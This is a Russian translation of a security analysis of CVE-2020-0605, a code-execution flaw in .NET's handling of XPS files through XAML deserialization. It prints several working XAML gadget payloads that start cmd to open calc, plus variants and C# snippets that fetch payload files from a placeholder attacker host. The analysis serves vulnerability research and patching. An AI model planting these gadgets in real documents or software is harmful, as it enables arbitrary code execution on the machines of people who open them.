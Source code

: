 ```yaml
--- 

layout: post 

title: Анализ CVE-2020-0605 – Выполнение произвольного кода, используя XPS файлы в .NET 

category: [translations] 

tag: [translation] 

--- 
```


 

 

[Оригинал](https://www.mdsec.co.uk/2020/05/analysis-of-cve-2020-0605-code-execution-using-xps-files-in-net/) 

 

 

![](/assets/images/translations/cve-net/1.png) 

 

 

## Введение 

 

 

Майкрософт запатчила несколько уязвимостей, связанных с десериализацией XPS файлов. Патч, для [CVE-2020-0605](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-0605), вышедший в январе 2020, не исправлял проблему полностью и в мае 2020 было выпущено еще одно обновление.   

 

 

Формат XPS предполагался, как замена PDF, но так и не получил широкого распространения. Microsoft сделала приложение XPS Viewer опциональным по-умолчанию, в последних версиях Windows (в установленных с нуля Windows 10 1083 и выше). XPS Viewer не использует .NET, для показа XPS файлов, поэтому уязвимость его не затронула.  

 

 

Запатченая уязвимость позволяла проэксплуатировать код, работающий с XPS файлами, используя .NET библиотеки. 

Обнаруженные уязвимости также могут являться частью эксплуатации XAML десериализации.  

 

 

## Технический анализ 

 

 

Каждый XPS файл содержит изображения, шрифты или XML данные в сжатом виде. Для обратки XML документов внутри XPS файлов, используется .NET сериализация XAML.  

 

 

Пример структуры XPS файла: 

 

 

``` 

File.xps\DiscardControl.xml 

File.xps\FixedDocumentSequence.fdseq 

File.xps\[Content_Types].xml 

File.xps\Documents\1\FixedDocument.fdoc 

File.xps\Documents\1\Pages\1.fpage 

File.xps\Documents\1\Pages\_rels\1.fpage.rels 

File.xps\Documents\1\_rels\FixedDocument.fdoc.rels 

File.xps\Metadata\Job_PT-inqy3ql9shqm2dc_mcqr93k5g.xml 

File.xps\Metadata\SharedEmpty_PT-cn4rss5oojtjhxzju9tpamz4f.xml 

File.xps\Resources\Fonts\0D7703BF-30CA-4254-ABA0-1A8892E2A101.odttf 

File.xps\Resources\Images\00F8CA61-B050-4B6A-AFEF-139AA015AC08.png 

File.xps\_rels\.rels 

File.xps\_rels\FixedDocumentSequence.fdseq.rels 

``` 

 

 

Файлы, с расширениями ".fdseq", ".fdoc" и ".fpage", используют XAML сериализацию, реализованную в .NET. 

 

 

Также можно использовать другие расширения, если соответствующие типы прописаны в Content_Types.xml. 

 

 

Можно взять простой пейлод из [ysoserial](https://github.com/frohoff/ysoserial) и вставить в любой из этих файлов. Он будет запущен, при чтении XPS файла: 

 

 

```xml 

<ResourceDictionary 

xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" 

 xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml" 

 xmlns:System="clr-namespace:System;assembly=mscorlib" 

 xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system"> 

 <ObjectDataProvider x:Key="LaunchCalc" 

 ObjectType="{x:Type Diag:Process}" 

 MethodName="Start"> 

 <ObjectDataProvider.MethodParameters> 

 <System:String>cmd</System:String> 

 <System:String>/c calc</System:String> 

 </ObjectDataProvider.MethodParameters> 

 </ObjectDataProvider> 

</ResourceDictionary> 

``` 

 

 

Январский патч защищал только ".fdseq" файл, что позволяло использовать уязвимость, с другим файлами. 

 

 

Следующий C# код демонстрирует два примера использования XPS файлов в .NET: 

 

 

```csharp 

XpsDocument myDoc = new XpsDocument(@"http://[attackersite]/test.xps", FileAccess.Read); 

var a = myDoc.GetFixedDocumentSequence(); 

``` 

 

 

или 

 

 

```csharp 

PrintQueue defaultPrintQueue = LocalPrintServer.GetDefaultPrintQueue(); 

PrintSystemJobInfo xpsPrintJob = defaultPrintQueue.AddJob("test", @"http://[attackersite]/test.xps", false); 

``` 

 

 

Хочется отметить, что BAML файлы (BAML - скомпилированная версия XAML) внутри XPS не могли использоваться для эксплуатации в наших тестах, так как они вызывали внутренние ошибки. 

 

 

## Уязвимые .NET библиотеки  

 

 

Методы _Load_ и _Validate_ класса _XpsValidatingLoader_ (внутренний класс System.Windows.Documents), вызывают другой приватный метод, который использует _XamlReader.Load_ и могут привести к выполнению произвольного кода, при обработке вредоносного XAML. 

 

 

``` 

System.Windows.Documents.XpsValidatingLoader -> внутренний класс 

    Load -> внутренний метод, используется в: 

        System.Windows.Documents.PageContent 

        System.Windows.Documents.FixedDocument 

        System.Windows.Documents.DocumentReference 

    Validate -> внутренний метод, используется в: 

        System.Windows.Documents.FixedDocument 

``` 

 

 

Вышеуказанные внутренние файлы классов затем используются другими классами, которые в конце концов будут доступны публично. 

 

 

## XAML гаджеты 

 

 

Можно использовать уязвимый код, для добавления XAML гаджетов из _ysoserial_: 

 

 

Использование FixedDocumentSequence и внешнего файла: 

 

 

```xml 

<FixedDocumentSequence xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"> 

    <DocumentReference Source="http://[attackersite]/payload.xaml" /> 

</FixedDocumentSequence> 

``` 

 

 

Использование FixedDocumentSequence и свойства Resources: 

 

 

```xml 

<FixedDocumentSequence xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:sd="clr-namespace:System.Diagnostics;assembly=System" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"> 

  <FixedDocumentSequence.Resources> 

    <ObjectDataProvider MethodName="Start" x:Key=""> 

      <ObjectDataProvider.ObjectInstance> 

        <sd:Process> 

          <sd:Process.StartInfo> 

            <sd:ProcessStartInfo Arguments="/c calc" FileName="cmd" /> 

          </sd:Process.StartInfo> 

        </sd:Process> 

      </ObjectDataProvider.ObjectInstance> 

    </ObjectDataProvider> 

  </FixedDocumentSequence.Resources> 

</FixedDocumentSequence> 

``` 

 

 

Использование FixedDocument и внешнего файла: 

 

 

```xml 

<FixedDocument xmlns="http://schemas.microsoft.com/xps/2005/06"> 

    <PageContent Source="http://[attackersite]/payload.xaml" Height="1056" Width="816" /> 

</FixedDocument> 

``` 

 

 

использование FixedDocument и свойства Resources: 

 

 

```xml 

<FixedDocument xmlns="http://schemas.microsoft.com/xps/2005/06" xmlns:sd="clr-namespace:System.Diagnostics;assembly=System" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"> 

  <FixedDocument.Resources> 

    <ObjectDataProvider MethodName="Start" x:Key=""> 

      <ObjectDataProvider.ObjectInstance> 

        <sd:Process> 

          <sd:Process.StartInfo> 

            <sd:ProcessStartInfo Arguments="/c calc" FileName="cmd" /> 

          </sd:Process.StartInfo> 

        </sd:Process> 

      </ObjectDataProvider.ObjectInstance> 

    </ObjectDataProvider> 

  </FixedDocument.Resources> 

</FixedDocument> 

``` 

 